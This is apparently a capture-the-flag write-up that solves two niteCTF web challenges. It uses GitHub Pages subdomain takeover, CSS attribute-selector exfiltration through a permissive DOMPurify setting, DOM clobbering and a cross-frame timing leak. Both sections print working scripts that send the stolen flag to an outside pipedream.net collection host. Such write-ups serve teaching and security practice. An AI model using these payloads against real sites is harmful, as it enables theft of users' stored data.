 ```yaml
---
layout: post
current: post
cover: assets/nite/nisala/cover.png
navigation: True
title: "un(documented)-js-api"
date: 2022-12-27 10:00:00
tags: [niteCTF, web]
class: post-template
subclass: 'post'
author: nisala
---
```


DOM clobbering, domain takeovers, shared process slowdowns, and CSS exfiltration, oh my!

These challenges were really something. While they were often broken (undocumented js-api was literally unsolvable for the first 24 hours that it was up), the core of the challenges were honestly pretty brilliant. Let's talk through them.

### First stop: undocumented js-api

In this challenge, we're greeted with a Notes app. We can input HTML into the box, which can then be rendered. All good so far. To solve the challenge, we have to submit a URL to an admin bot, which visits it with the flag in local storage (previous note is always stored there, because there's a function to restore the last note). 

At first glance, it looks like the notes app has an iframe API -- but you can only activate it if the iframe is embedded in a subdomain of the challenge (hosted at `chall1.jsapi.tech`):

```js
const parseUrl = (url) => {
    return (new URL(url)).host.endsWith(".jsapi.tech");
};
```

In a lot of challenges, the bug would be here. But this uses the `URL` constructor. We're not breaking this. So how do we do this? Well, I noticed that when you visit any subdomain of `jsapi.tech`, you get a GitHub Pages 404 page. So every subdomain is hooked into GitHub Pages. Now, this wouldn't normally be exploitable -- but GitHub doesn't tie registered domains to user accounts. Instead, they expect you to register DNS to a domain and then immediately publish to it. If you don't, *anyone can publish to it later on*. And that's exactly the exploit here. So I just made a repo and published to `squ1rrel.jsapi.tech`, and I'm in!

Now, we have to use the iframe API to get the flag. Unfortunately, we can't just put a script in -- not only because of a Content Security Policy, but because the Notes app is using `DOMPurify`. Lucky for us, though, they're using it insecurely:

```js
DOMPurify.sanitize(str, {ADD_TAGS: ['link','style']}); // allow CSS
```

We can get CSS in! Now, CSS seems innocuous on its own -- but the previous note's data (i.e. the flag) is stored in an attribute called `data-last` on the textarea, which we can select for in CSS! Check this out:

```css
textarea[data-last^='nite{a'] {
    background: url("https://LINK.x.pipedream.net/exfiltrate?data=nite.a");
}
```

If the `data-last` attribute starts with `nite{a`, then the URL is called, sending us the data `nite.a`. Now, we know that the flag starts with `a`, and we can add on another letter to test it out. By doing this over and over, we can get the entire flag.

Now, obviously, I don't want to write all this CSS out myself, so I wrote a little script to generate CSS files for me:

```js
const characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_}';
const prefix = "n";
const setPrefix = prefix.replace("{", ".");
let css = "";
for (let c1 of characters) {
    css += `textarea[data-last^='${prefix}${c1}'] {
        background: url("https://LINK.x.pipedream.net/exfiltrate?data=${setPrefix}${c1.replace("}", ".")}");
    }
    
    `;
}

const fs = require("fs");
fs.writeFileSync("test.css", css);
```

I modified this script to get me up to three characters at a time (just more `for` loops), but for simplicity, I'm just showing one at a time here. In order to get the CSS on the page, I used the iframe API like this:

```js
const ORIGIN = "https://chall1.jsapi.tech";
window.addEventListener("message", function(event) {
    if (event.origin !== ORIGIN) return;
    if (event.data === "NOTE_APP_API_LOADED") {
        document.querySelector("iframe").contentWindow.postMessage(`NOTE_APP_SET_REQUEST any text here<link rel="stylesheet" href="https://squ1rrel.jsapi.tech/test.css?t=${Math.random()}"></link>`, ORIGIN);
    }

    fetch("https://enu819t2ymo3d.x.pipedream.net/?data=" + encodeURIComponent(event.data));
});
```

When the API loads, this sets a note with the CSS link, which does the exfiltration as described above. I add `Math.random()` on the end to stop CSS caching (as we found out later, this was required because they weren't using an Incognito browser context). You'll notice that the note starts with "any text here". That's because, for some reason, [DOMPurify removes allowed tags if they're the first tag](https://github.com/cure53/DOMPurify/issues/683), so you just have to put something before it.

As I got more characters, I would add them to the prefix, regenerate the CSS, redeploy it to GitHub Pages, and submit to the admin bot again. And eventually, I had the flag!

### Another one: js-api

js-api claimed to be better documented. Honestly, the documentation was incredibly pointless -- it was clear what was and wasn't vulnerable, and that was kinda that. But let's break it down anyways. This is, once again, a Notes app with an iframe API. This API let you preview a note (to a div), set a note (to an internal variable), or search a note (search that internal variable). Here's the search function:

```js
search(text) {
    if ( typeof text !== 'string' ) return;
    if ( !window.enable_experimental_features ) return;

    // some massive security warning I've removed
    // because honestly it made the challenge more confusing
    text = DOMPurify.sanitize( text );
    const doesMatch = this.noteData.includes(text);
    if ( doesMatch ) {
        var lastIndex = 0, i = 0;
        for (...) {
            if ( lastIndex > i ) break;

            this.highlightNode.innerHTML 
                += escapeHtml(this.noteData.substring(lastIndex, i));
            this.highlightNode.innerHTML 
                += `<mark>${escapeHtml( text ) }</mark>`
            
            lastIndex = i + text.length;
        }
        document.querySelector('#note-text-highlight-wrapper').classList.remove('hidden');
    }
}
```

Okay, so `search` has a security warning in it, so it's obviously vulnerable. In order to use it, though, we have to set `window.enable_experimental_features`. We can do this with DOM clobbering. Simply use the `preview` function like so:

```js
iframeWindow.postMessage({
    op: "preview",
    payload: `1<p id="enable_experimental_features">clobber</p>`
}, ORIGIN);
```

And we're good to go -- the variable is set! Now, let's look at what the search function is actually doing. If we search for a piece of text, *and it's in the note*, it'll start populating a new "search results" div. It'll put the contents of the note in the div, and it'll highlight what the search matched in the note. Now, by itself, this is pretty worthless -- but there are two key things the admin bot is doing that actually makes this the key to the solution.

```js
const flag2 = 'nite{549387f2-00fc-4f70-a769-c8887f8dca65}'.repeat(1000);
```

Okay, the flag is repeated 1000 times, and it's super long. You'll notice that the search function uses `innerHTML` and appends to it over and over -- so with this much text, it'll definitely cause significant browser lag. Now, normally, the iframe would run in a different process from the page it's contained in, so the main page wouldn't be able to notice this. But the admin bot has done one more key thing:

```js
puppeter_args.args = [
    '--disable-site-isolation-trials',
    '--user-data-dir=/tmp/chrome-userdata',
    '--breakpad-dump-location=/tmp/chrome-crashes'
];
```

Disable site isolation trials? Whatever could that mean?

> After you disable the isolation policy, Chrome uses its pre-site isolation process model to render websites. Different sites might share processes with each other. And cross-site frames might be rendered in the same process as their parent page.

Cross-site frames in the same process as their parent page, you say? Well, well, well! Looks like we'll be able to detect it after all! So here's what we do:

```js
const characters = "abcdefghijklmnopqrstuvwxyz0123456789_-}";
let prefix = `nite{${location.hash.replace("#", "")}`;
while (!prefix.includes("}")) {
    for (let character of characters) {
        let now = Date.now();
        iframeWindow.postMessage({
            op: "search",
            payload: `${prefix}${character}`
        }, ORIGIN);                
        await new Promise(resolve => setTimeout(resolve, 10));
        if (Date.now() - now > 100) {
            console.log(prefix + character);
            prefix += character;
            fetch("https://LINK.x.pipedream.net/exfiltrate?data=" 
                + prefix.replace("{", ".").replace("}", "."));
            break;
        }
    }
}
```

This dynamically tries to search for the flag, using the flag prefix we already know. After dispatching a search, it sets a 10 millisecond timeout, which tells the Chrome event scheduler to move onto something else (thus ensuring that the search runs and it doesn't just move on immediately). If the search takes more than 100 milliseconds (i.e. 10x the time of the timeout!), it's gotten hung up, which means it was probably displaying search results! Thus, it sends that out to us, and tries to find the next character.

There's a 60 second timeout on the admin bot, so we have to run this a couple times (which is why I made it so you could tack the known prefix onto the URL). But after a few tries, we got the flag!
